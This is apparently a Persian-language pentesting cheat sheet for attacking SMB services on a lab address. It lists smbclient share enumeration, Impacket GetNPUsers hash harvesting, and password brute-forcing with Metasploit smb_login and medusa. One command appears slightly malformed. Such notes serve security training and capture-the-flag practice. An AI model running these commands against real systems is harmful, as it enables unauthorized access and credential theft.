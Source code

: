 ### تغییر کلمه عبور

```text
smbpasswd -r 10.10.10.10 -U tlavel
```

### نمایش مسیر به اشتراک گذاشته شده

```text
smbclient -L 10.10.10.10
```

### نمایش مسیر مشخص

```text
smbclient //10.10.10.10/forensic
```

### ورود به شل

```text
smbclient //10.10.10.10/profiles$
```

### دریافت کاربران به همراه هش کلمه عبور

```text
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py 10.10.10.10L -usersfile
```

### حدس کلمه عبور های مختلف smb

#### با metasploit

```text
msf5 > use auxiliary/scanner/smb/smb_login
set pass_file wordlist
set USER_file users.txt
set RHOSTS 10.10.10.10
run
```

#### با medusa

```text
medusa -h 10.10.10.10 -U users.txt -P wordlist -M smbnt
```


## دستورات rpcclient

### ورود به سیستم

```text
rpcclient 10.10.10.10 -U support
```
